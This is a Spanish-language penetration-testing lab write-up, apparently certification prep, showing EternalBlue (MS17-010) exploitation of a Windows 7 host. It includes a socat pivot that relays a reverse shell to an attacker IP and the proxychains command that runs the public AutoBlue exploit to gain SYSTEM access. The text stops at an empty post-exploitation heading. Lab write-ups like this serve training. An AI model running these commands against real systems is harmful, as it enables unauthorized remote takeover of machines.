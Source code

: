 Listando la versión de `windows` a través de `nxc`

![Untitled](/assets/img/labECCPT/Pasted image 20240321141323.png)

Se identifica un `Windows 7 Enterprise` por lo cual posiblemente sea vulnerable a `Eternal Blue`

Identificando vulnerabilidades del `smb`

![Untitled](/assets/img/labECCPT/Pasted image 20240321141547.png)

Se confirma que es vulnerable para `Eternal BLue`

### Exploit

Para ejecutar correctamente el exploit, es importante considerar que la máquina `Windows - 10.10.0.144` no tiene comunicación directa con nuestra máquina atacante. Por lo tanto, la máquina `breakout` actuará como intermediaria, ejecutando el servicio `socat` y redirigiendo el tráfico hacia la máquina atacante.

![Untitled](/assets/img/labECCPT/Pasted image 20240402143608.png)

Utilizando [GitHub - 3ndG4me/AutoBlue-MS17-010: This is just an semi-automated fully working, no-bs, non-metasploit version of the public exploit code for MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

Corriendo el script `shell_prep.sh` el cual nos va a permitir crear nuestro payload

![Untitled](/assets/img/labECCPT/Pasted image 20240402143839.png)

Transfiriendo el `socat` a la máquina `breakout` y redirigiendo el tráfico hacia la máquina atacante a través de:

```bash
./socat TCP-LISTEN:4444,fork TCP:192.168.1.18:2121 &
```

![Untitled](/assets/img/labECCPT/Pasted image 20240402144422.png)

### Intrusion

En la máquina atacante nos ponemos en escucha a través de `nc`
Ejecutamos el exploit

```bash
 proxychains python2 eternalblue_exploit7.py 10.10.0.144 shellcode/sc_x64.bin 2>/dev/null
```

Obteniendo:

![Untitled](/assets/img/labECCPT/Pasted image 20240402144817.png)

se gana acceso como el usuario `nt authority\system` que es él usuario con máximo privilegios en los sistemas `Windows`

### Post-Explotación

